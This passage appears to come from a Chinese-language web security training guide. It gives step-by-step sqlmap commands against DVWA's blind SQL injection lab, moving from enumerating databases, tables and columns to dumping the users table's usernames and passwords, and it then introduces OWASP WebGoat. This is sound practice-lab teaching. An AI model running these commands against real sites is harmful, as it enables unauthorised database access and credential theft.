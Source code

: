 ``````

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" --current-db
```

![1559655198515](assets/1559655198515.png)

（2）查看当前用户

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" --current-user
```

![1559655403932](assets/1559655403932.png)

（3）查看全部数据库

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" --dbs
```

![1559655486452](assets/1559655486452.png)

（4）查看数据库全部表
```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" -D dvwa --tables
```

![1559655542253](assets/1559655542253.png)

（5）查看表字段

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" -D dvwa -T users --columns
```

![1559655623753](assets/1559655623753.png)

（6）查看数据

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" -D dvwa -T users -C user,password --dump
```

![1559655752250](assets/1559655752250.png)



## 6.3 其他靶场
### 6.3.1 WebGoat

#### 6.3.1.2 WebGoat 简介

WebGoat是OWASP组织研制出的用于进行web漏洞实验的Java靶场程序，用来说明web应用中存在的安全漏洞。WebGoat运行在带有java虚拟机的平台之上，当前提供的训练课程有30多个，其中包括：跨站点脚本攻击（XSS）、访问控制、线程安全、操作隐藏字段、操纵参数、弱会话cookie、SQL盲注、数字型SQL注入、字符串型SQL注入、web服务、Open Authentication失效、危险的HTML注释等等。

#### 6.3.1.3 WebGoat安装

``````